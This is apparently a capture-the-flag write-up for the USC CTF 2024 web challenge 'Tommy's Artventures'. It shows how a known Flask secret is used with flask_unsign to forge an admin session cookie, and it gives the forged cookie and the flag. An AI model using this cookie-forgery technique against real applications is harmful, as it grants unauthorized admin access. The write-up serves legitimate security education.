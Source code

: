 ![image](https://github.com/x03ee/CTF-Writeup/blob/main/2024/USC-CTF-2024/web/Tommy's%20Artventures/chall.png)

With the secret `4a6282bf78c344a089a2dc5d2ca93ae6` when logging in we find out its jwt and when changing to admin and with the secret we get a new jwt and when changing the cookie we get flag since only admin is allowed.

![image](https://github.com/x03ee/CTF-Writeup/blob/main/2024/USC-CTF-2024/web/Tommy's%20Artventures/s1.png)

```py
python3 -m flask_unsign --sign --cookie '{"user": "admin"}' --secret '4a6282bf78c344a089a2dc5d2ca93ae6'
```
```js
{
  "user": "admin"
}
```

Cookie:
`eyJ1c2VyIjoiYWRtaW4ifQ.Zyff7w.cCzlyC0k1s5GDdWEUBG6ImgX9BM`

Flag:
`CYBORG{oce4n5_auth3N71ca7i0N}`
